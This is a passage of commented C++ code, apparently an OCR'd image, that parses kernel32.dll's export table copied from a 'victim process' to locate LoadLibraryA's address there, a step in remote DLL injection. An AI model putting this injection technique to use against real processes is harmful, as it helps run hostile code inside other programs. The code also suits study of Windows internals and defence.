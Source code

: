 ```cpp
        of the first function
    By RVA, we mean an offset starting from the base address of the module (kernel32.dll)
    */
    ULONG_PTR addressExportFunctionsNames = ((ULONG_PTR)allocatedHeapMemoryAddress) + 
        (imageExportDirectory.AddressOfNames - exportDirectoryAddressOffset);
    ULONG_PTR addressExportFunctions = ((ULONG_PTR)allocatedHeapMemoryAddress) +
        (imageExportDirectory.AddressOfFunctions - exportDirectoryAddressOffset);
    
    ULONG_PTR offsetExportFunctionName;
    ULONG_PTR addressExportFunctionName;
    ULONG_PTR targetFunctionAddress;
    ULONG_PTR targetFunctionRVA;

    char targetFunctionName[] = "LoadLibraryA";
    
    /*
    Loop through all the exported functions from the target module (kernel32.dll).
    There should be about 1600 functions to check.
    */
    for (int i = 0; i < numExportedFunctions; i++)
    {

        /*
        Copy the Relative Virtual Address (RVA) of the function name, so we can
        retrieve it and compare it with the string 'LoadLibraryA'.
        */
        CopyMemory(
            &amp;offsetExportFunctionName,
            (PVOID)(addressExportFunctionsNames + (i * 4)),
                4);

        /*
        Calculating the absolute address of the function name.
        Since we copied the entire Export Directory from the victim process,
        there's no need to call ReadProcessMemory for each function.
        The absolute address of the function name resides in the Heap
        of the current process.
        */
        addressExportFunctionName = ((ULONG_PTR)allocatedHeapMemoryAddress) +
            offsetExportFunctionName - exportDirectoryAddressOffset;

        /*
        Checking if the name of the exported function is equal to "LoadLibraryA".
        */
        if (strcmp(targetFunctionName, (const char *)addressExportFunctionName) == 0)
        {
            printf("[+] Function name: %s\n", addressExportFunctionName);

            /*
            Copy the RVA, which is 4-bytes long, of the target function (LoadLibraryA)
            into the variable 'targetFunctionRVA'.
            */
            CopyMemory(
                &amp;targetFunctionRVA,
                (PVOID)(addressExportFunctions + (i * 4)),
                4);

            printf("[+] Relative Virtual Address of the target Export Function: %p\n", targetFunctionRVA);

            /*
            Now that we have the RVA of LoadLibraryA, we can calculate its absolute address
            (in the memory of the victim process).
```